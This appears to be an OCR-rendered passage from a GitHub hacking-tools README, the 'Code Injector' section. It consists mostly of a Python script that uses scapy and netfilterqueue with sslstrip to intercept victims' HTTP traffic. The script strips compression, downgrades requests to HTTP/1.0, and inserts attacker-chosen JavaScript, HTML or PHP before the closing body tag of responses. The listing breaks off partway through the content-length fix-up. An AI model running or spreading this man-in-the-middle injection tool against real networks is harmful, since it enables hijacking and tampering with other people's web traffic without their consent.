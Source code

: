 

### 2. Code Injector:

_[Source](https://github.com/m3rcer/Python-Hax/blob/main/CodeInjector/README.md)_
- We changed the `sport` and `dport` definitions to match sslstrip's port definitions (port 10000).
- We replaced the load for the request from "HTTP/1.1 to HTTP/1.0" to get the response as a whole and not chunked.

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import argparse
import re


# Parse Args
def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-f", "--file-to-inject", dest="file", help="File/Code to Inject", type=str)
    options = parser.parse_args()
    if not options.file:
        # code to handle error
        parser.error("\n[-] Please specify a valid file with code to inject(js,HTML,php...),  use --help for info.")
    File = open(options.file, 'r')
    f = File.readlines()
    code = ""
    for line in f:
        code += line.strip()
    return(code)

# Alter packets load
def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.TCP].chksum
    del packet[scapy.IP].chksum
    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        #print(scapy_packet.show())
        try:
            load = scapy_packet[scapy.Raw].load.decode()
            # using sslstrip
            if scapy_packet[scapy.TCP].dport == 10000:
                print("\n[+] Request from: " + scapy_packet[scapy.IP].src)
                load = re.sub("Accept-Encoding:.*?\\r\\n", "", load)
                # Using HTTP/1.0
                load = load.replace("HTTP/1.1", "HTTP/1.0")
            # using sslstrip
            elif scapy_packet[scapy.TCP].sport == 10000:
                print("[+] Response from: " + scapy_packet[scapy.IP].src)
                injection_code = code
                # Appends injected code before terminating </body> tag
                load = load.replace("</body>", injection_code + "</body>")
                # Capture non capturing groups and use non capturing regex --> (?:...)
                content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
                if content_length_search and "text/html" in load:
```